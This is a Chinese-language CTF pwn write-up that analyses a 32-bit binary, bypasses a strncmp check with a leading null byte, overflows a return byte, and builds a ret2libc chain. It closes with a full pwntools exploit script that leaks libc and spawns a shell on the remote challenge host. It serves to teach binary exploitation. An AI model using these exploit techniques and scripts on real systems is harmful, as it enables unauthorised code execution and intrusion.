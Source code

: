 首先checksec检查安全机制

![image-20200625121418899](https://static.hack1s.fun/images/2021/02/06/image-20200625121418899.png)

这还是很少见的开启Full RELRO的程序

拖到ida看一下主函数的逻辑

![image-20200625123543553](https://static.hack1s.fun/images/2021/02/06/image-20200625123543553.png)

这个函数里面没有溢出点，打开了`/dev/urandom`读出其中4个字节，赋值给`buf`

之后buf再作为一个函数的参数，得到v2

最后再将v2作为参数传入一个函数运行，下面看一下这两个函数的逻辑

![image-20200625123736584](https://static.hack1s.fun/images/2021/02/06/image-20200625123736584.png)

这个函数的参数是buf作为int的值，看到下面有一个`strncmp`的`if`语句，如果值为不为0就会导致直接exit

所以这里需要buf和s的值相等，向上倒推

局部变量buf是在上面`read(0,buf,0x20u)`从stdin输入的0x20个字节内容

而s是在`sprintf(&s,"%ld",a1)`这里被赋值为`a1`，即整个函数的参数，main函数中的`buf`

最终返回的这个v5乍一看不存在赋值的语句，但是实际上看到内存中buf位于`ebp-2Ch`，v5位于`ebp-25h`，而且这里read读取的过程允许读最多0x20的长度，因此是可以覆盖v5字节，控制返回值的

最后看一下上面v2作为参数的函数

![image-20200625125242661](https://static.hack1s.fun/images/2021/02/06/image-20200625125242661.png)

这个函数的输入是上面返回的v5，大小是我们可以控制的

当这个字节的值是127时，可以从stdin读取长度`0xC8`的内容，其他值时就可以读取a1长度的内容

而buf距离ebp有E7h，因此肯定要尽可能的大，这里尽量控制返回值为0xff，必须要求e7h以上才可以



整体思路就是利用`sub_804871F`来溢出控制返回值v5，再利用`sub_80487d0`来溢出拿到shell

但是利用`sub_804871f`的前提是要绕过`strncmp`函数

仔细看一下这个比较

 ```c
v1=strlen(buf);
if(strncmp(buf,&s,v1))
  exit(0);
 ```

这里控制比较长度的v1是利用strlen读取了buf的长度，而这个buf是我们可以人为控制的

并且strlen函数是遇到`\x00`字节就会停止的，因此可以控制v1为0，使得两个比较恒等

```python
payload = '\x00' + 'a'*6 + '\xff'
```

这样就可以溢出`sub_804871F`，控制返回值v5值为0xff



控制了返回值v5之后，在80487d0这个函数这里就可以读取长度ffh的内容了

这里payload就和常规的rop差不多了，首先泄漏write的地址，计算出libc基地址

之后利用gadget搜索跳转到`execve("bin/sh")`即可

首先是填充buf到ebp的e7h，之后填充4个字节的ebp，最后是返回值

这里因为程序之前运行过write，就直接暴露write的地址即可

```python
payload = 'a'*0xe7 + 'a'*4 + write_plt + start + 1 + write_got + 4
```

这个payload执行完成之后会输出write的真实地址，并且再一次回到程序开始运行的地方

之后计算出libc的基地址即可



在得到基地址之后，再一次执行上面的流程，跳到gadget的位置即可

![image-20200625133907380](https://static.hack1s.fun/images/2021/02/06/image-20200625133907380.png)

首先要把控制返回值v5的payload发送一遍，之后的payload应该是下面这样子

```python
payload = 'a'*0xe7 + 'a'*4 + p32(execve_sh)
```



写payload的时候发现符号表里没有main，所以main的地址要用IDA直接看

one_gadget的这些gadget测试之后发现都没有办法成功拿到shell

所以要尝试一下system函数

这就需要再从libc的符号表读出来system的偏移

```python
from pwn import *
from LibcSearcher import *

#io = process('./pwn')
io = remote('node3.buuoj.cn','28595')

elf = ELF('./pwn')

libc = ELF('./libc-2.23.so')

write_plt = elf.plt["write"]
write_got = elf.got["write"]

start = 0x8048825
bin_sh_offset = next(libc.search("bin/sh"))

payload1 = '\x00'+'a'*6+'\xff'

io.sendline(payload1)
io.recvuntil("Correct\n")

payload2 = 'a'*0xe7 + 'a'*4 + p32(write_plt) + p32(start) + p32(1) + p32(write_got) + p32(4)

io.sendline(payload2)

write_real = u32(io.recv(4))


libc_base = write_real - libc.sym["write"]
system_addr = libc_base + libc.sym["system"]

bin_sh_str = libc_base + bin_sh_offset


#execve_sh = libc_base + 0x5f066
# 0x3a80c
# 0x3a80e
# 0x3a812
# 0x3a819
# 0x5f065
# 0x5f066

payload3 = 'a'*0xe7 + 'a'*4 + p32(system_addr) + "AAAA" + p32(bin_sh_str)

io.sendline(payload1)
io.recvline()

io.sendline(payload3)
io.interactive()
```

调用system函数的时候，`aaaa`是system的返回地址，用来占位

